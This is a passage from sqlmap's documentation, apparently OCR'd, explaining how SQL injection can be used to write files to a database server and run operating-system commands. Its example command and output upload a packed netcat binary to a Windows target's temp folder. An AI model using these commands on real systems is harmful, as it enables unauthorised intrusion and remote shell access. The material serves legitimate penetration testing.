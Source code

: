 ```
) Intel 80386 32-bit
```

### Upload a file to the database server's file system

Options: `--file-write` and `--file-dest`

It is possible to upload a local file to the database server's file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a MySQL target to upload a binary UPX-compressed file:

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```

## Operating system takeover

### Run arbitrary operating system command

Option and switch: `--os-cmd` and `--os-shell`

It is possible to **run arbitrary commands on the database server's underlying operating system** when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses.
